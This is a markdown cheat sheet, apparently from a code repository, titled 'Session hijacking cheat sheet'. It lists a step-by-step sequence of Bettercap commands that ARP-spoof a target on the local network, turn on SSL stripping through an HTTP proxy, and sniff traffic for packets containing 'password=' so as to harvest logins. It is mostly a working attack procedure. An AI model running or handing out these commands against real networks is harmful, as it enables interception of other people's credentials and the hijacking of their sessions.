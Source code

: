 ## Session hijacking cheat sheet


### Bettercap

#### Using Bettercap to collects all http logins used by routers, servers, and websites that do not have SSL enabled

```sh
bettercap -iface eth0
```
-iface: Specifies the interface to bind to.


```sh
net.probe on
```
This module will send different types of probe packets to each IP in the current subnet for the net.recon module to detect them.


```sh
net.recon on
```
The net.recon module displays the detected active IP addresses in the network. In real-time, this module will start sniffing network packets.


```sh
set http.proxy.sslstrip true
```
This module enables SSL stripping.


```sh
set arp.spoof.internal true
```
This module spoofs the local connections among computers of the internal network.


```sh
set arp.spoof.targets [Target IP]
```
This module spoofs the IP address of the target host.


```sh
http.proxy on
```
This module initiates http proxy.


```sh
arp.spoof on
```
This module initiates arp spoofing.


```sh
net.sniff on
```
This module is responsible for performing sniffing on the network.


```sh
set net.sniff.regexp '.*password=.+'
```
This module will only consider the packets sent with a payload matching the given regular expression (in this case, ‘.*password=.+’).


#### Using Bettercap to sniff network traffic from https-based websites


```sh
set http.proxy.sslstrip true
```


